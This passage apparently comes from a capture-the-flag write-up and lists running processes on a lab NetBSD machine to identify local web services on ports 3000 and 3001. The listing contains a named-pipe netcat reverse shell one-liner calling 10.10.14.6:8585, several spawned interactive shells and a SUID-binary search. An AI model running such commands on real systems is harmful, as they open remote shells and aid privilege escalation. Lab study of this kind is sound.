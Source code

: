 There are two additional services running locally on ports 3000 and 3001. Let's have a look at the running processes to see what is running on these ports:

```
$ ps auxw
USER         PID %CPU %MEM    VSZ   RSS TTY   STAT STARTED    TIME COMMAND
root           0  0.0  0.2      0 11936 ?     OKl   9:56AM 0:05.39 [system]
root           1  0.0  0.0  19852  1528 ?     Is    9:56AM 0:00.01 init 
root         163  0.0  0.0  32528  2288 ?     Ss    9:56AM 0:00.07 /usr/sbin/syslogd -s 
r.michaels   185  0.0  0.0  34992  2012 ?     Is    9:57AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /hom
root         298  0.0  0.0  19704  1324 ?     Is    9:56AM 0:00.00 /usr/sbin/powerd 
root         299  0.0  0.0  33372  1828 ?     Is    9:57AM 0:00.00 nginx: master process /usr/pkg/sbin/nginx 
root         318  0.0  0.1 117948  7224 ?     Il    9:56AM 0:15.27 /usr/pkg/bin/vmtoolsd 
_httpd       336  0.0  0.3 119300 16116 ?     Ss    9:57AM 0:13.14 /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8 
root         348  0.0  0.0  75116  2908 ?     Is    9:57AM 0:00.01 /usr/sbin/sshd 
nginx        373  0.0  0.1  33896  3504 ?     I     9:57AM 0:35.99 nginx: worker process 
_httpd       376  0.0  0.0  34956  2012 ?     Is    9:57AM 0:04.07 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr
root         402  0.0  0.0  24128  1668 ?     Is    9:57AM 0:00.06 /usr/sbin/cron 
_httpd       411  0.0  0.0  23232  1656 ?     I     9:57AM 0:00.27 /bin/sh /usr/local/scripts/processes.sh 
_httpd       422  0.0  0.0  22788  1652 ?     I     9:57AM 0:00.10 /bin/sh /usr/local/scripts/memory.sh 
_httpd       436  0.0  0.0  19992  1656 ?     I     9:57AM 0:00.10 /bin/sh /usr/local/scripts/uptime.sh 
_httpd     21351  0.0  0.0  20028  1716 ?     I     2:28PM 0:00.00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.1
_httpd     22142  0.0  0.0  15952  1392 ?     I     2:45PM 0:00.01 nc 10.10.14.6 8585 
_httpd     22206  0.0  0.0  15436  1280 ?     I     2:45PM 0:00.00 cat /tmp/f 
_httpd     22884  0.0  0.0  35256  2340 ?     I     3:10PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr
_httpd     22885  0.0  0.0  22168  1760 ?     S     3:29PM 0:00.01 /bin/sh -i 
_httpd     22943  0.0  0.0  35256  2340 ?     I     2:28PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr
_httpd     23064  0.0  0.0  35256  2340 ?     I     2:45PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr
_httpd     23294  0.0  0.0  17828  1660 ?     D     3:27PM 0:00.01 find / -perm -4000 
_httpd     23409  0.0  0.0  15952  1396 ?     I     3:10PM 0:00.01 nc 10.10.14.6 8585 
_httpd     23440  0.0  0.0  20708  1712 ?     I     3:10PM 0:00.00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.1
_httpd     23557  0.0  0.0  17636  1384 ?     I     3:50PM 0:00.00 sleep 30 
_httpd     23562  0.0  0.0  20076  1768 ?     I     3:10PM 0:00.01 /bin/sh -i 
_httpd     23769  0.0  0.0  15436  1280 ?     I     3:10PM 0:00.00 cat /tmp/f 
_httpd     23858  0.0  0.0  15440  1284 ?     S     3:29PM 0:00.00 cat /tmp/f 
_httpd     25033  0.0  0.0  16560  1284 ?     I     2:28PM 0:00.00 cat /tmp/f 
_httpd     25448  0.0  0.0  20028  1712 ?     I     2:45PM 0:00.00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.1
_httpd     25615  0.0  0.0  25608  1820 ?     I     3:09PM 0:00.00 /bin/csh 
_httpd     25794  0.0  0.0  20056  1768 ?     I     2:28PM 0:00.00 /bin/sh -i 
_httpd     26062  0.0  0.0  15952  1396 ?     I     2:28PM 0:00.00 nc 10.10.14.6 8585 
_httpd     26156  0.0  0.1  22052  3604 ?     I     2:42PM 0:00.03 grep -r PATH . 
_httpd     26338  0.0  0.0  20140  1760 ?     I     2:45PM 0:00.01 /bin/sh -i 
_httpd     26697  0.0  0.0  15952  1408 ?     S     3:29PM 0:00.01 nc 10.10.14.6 8585 
_httpd     27405  0.0  0.0  35256  2340 ?     I     3:29PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr
_httpd     27852  0.0  0.0  17636  1388 ?     I     3:50PM 0:00.00 sleep 30 
_httpd     27894  0.0  0.0  22620  1524 ?     O     3:50PM 0:00.00 ps -auxw 
_httpd     28398  0.0  0.0  20032  1716 ?     I     3:29PM 0:00.00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.1
_httpd     28438  0.0  0.0  17636  1380 ?     I     3:50PM 0:00.00 sleep 30 
root         423  0.0  0.0  19780  1576 ttyE0 Is+   9:57AM 0:00.00 /usr/libexec/getty Pc constty 
```